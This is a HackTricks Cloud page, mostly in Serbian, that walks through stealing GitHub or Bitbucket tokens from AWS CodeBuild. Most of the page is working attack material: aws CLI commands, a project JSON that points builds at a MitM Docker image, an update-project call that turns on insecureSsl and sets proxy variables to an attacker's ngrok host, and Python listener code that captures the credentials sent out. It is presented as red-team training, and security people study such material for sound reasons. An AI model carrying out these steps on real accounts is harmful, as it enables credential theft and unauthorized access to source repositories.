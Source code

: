 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recover Github/Bitbucket Configured Tokens

Prvo, proverite da li postoje bilo akreditivi izvora koji su konfigurisani koje biste mogli da iscurite:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Ako otkrijete da je autentifikacija, na primer, za Github postavljena na nalogu, možete **izvući** tu **pristup** (**GH token ili OAuth token**) tako što ćete naterati Codebuild da **koristi određenu docker sliku** za pokretanje izgradnje projekta.

U tu svrhu možete **napraviti novi Codebuild projekat** ili promeniti **okruženje** postojećeg da postavite **Docker sliku**.

Docker slika koju možete koristiti je [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Ovo je vrlo osnovna Docker slika koja će postaviti **env promenljive `https_proxy`**, **`http_proxy`** i **`SSL_CERT_FILE`**. Ovo će vam omogućiti da presretnete većinu saobraćaja hosta navedenog u **`https_proxy`** i **`http_proxy`** i verujete SSL CERT-u navedenom u **`SSL_CERT_FILE`**.

1. **Kreirajte i otpremite svoju Docker MitM sliku**
* Pratite uputstva iz repozitorijuma da postavite svoju proxy IP adresu i postavite svoj SSL certifikat i **izgradite docker sliku**.
* **NE POSTAVLJAJTE `http_proxy`** da ne biste presreli zahteve ka metadata endpoint-u.
* Možete koristiti **`ngrok`** kao `ngrok tcp 4444` da postavite proxy na vaš host.
* Kada izgradite Docker sliku, **otpremite je na javni repo** (Dockerhub, ECR...)
2. **Postavite okruženje**
* Kreirajte **novi Codebuild projekat** ili **izmenite** okruženje postojećeg.
* Postavite projekat da koristi **prethodno generisanu Docker sliku**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Postavite MitM proxy na vašem hostu**

* Kao što je navedeno u **Github repozitorijumu**, možete koristiti nešto poput:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**mitmproxy verzija koja je korišćena je 9.0.1**, prijavljeno je da sa verzijom 10 ovo možda neće raditi.
{% endhint %}

4. **Pokrenite gradnju i zabeležite akreditive**

*   Možete videti token u **Authorization** header-u:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Ovo se takođe može uraditi iz aws cli sa nečim poput

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** projekti imaju podešavanje pod nazivom **`insecureSsl`** koje je skriveno na vebu i može se promeniti samo putem API-ja.\
Omogućavanje ovoga omogućava Codebuild-u da se poveže sa repozitorijumom **bez provere sertifikata** koji nudi platforma.

* Prvo treba da enumerišete trenutnu konfiguraciju sa nečim poput:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Zatim, sa prikupljenim informacijama možete ažurirati postavku projekta **`insecureSsl`** na **`True`**. Sledeći je primer mog ažuriranja projekta, obratite pažnju na **`insecureSsl=True`** na kraju (ovo je jedina stvar koju treba da promenite iz prikupljene konfiguracije).
* Pored toga, dodajte i env varijable **http\_proxy** i **https\_proxy** koje upućuju na vaš tcp ngrok kao:

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Zatim pokrenite osnovni primer sa [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na portu koji su označili proxy varijable (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Na kraju, kliknite na **Build the project**, **akreditivi** će biti **poslati u čistom tekstu** (base64) na mitm port:

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### ~~Putem HTTP protokola~~

{% hint style="success" %}
**Ova ranjivost je ispravljena od strane AWS-a u nekom trenutku tokom nedelje 20. februara 2023. (mislim u petak). Tako da napadač više ne može da je zloupotrebi :)**
{% endhint %}

Napadač sa **povišenim dozvolama u CodeBuild-u mogao bi da iscuri Github/Bitbucket token** koji je konfigurisan ili ako su dozvole konfigurirane putem OAuth, **privremeni OAuth token koji se koristi za pristup kodu**.

* Napadač bi mogao da doda promenljive okruženja **http\_proxy** i **https\_proxy** u CodeBuild projekat koje upućuju na njegovu mašinu (na primer `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Zatim, promenite URL github repozitorijuma da koristi HTTP umesto HTTPS, na primer: `http://github.com/carlospolop-forks/TestActions`
* Zatim, pokrenite osnovni primer sa [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na portu koji su označile promenljive proxy (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Na kraju, kliknite na **Build the project**, **akreditivi** će biti **poslati u čistom tekstu** (base64) na mitm port:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Sada će napadač moći da koristi token sa svoje mašine, da izlista sve privilegije koje ima i (zlo)upotrebi lakše nego korišćenjem CodeBuild servisa direktno.
{% endhint %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
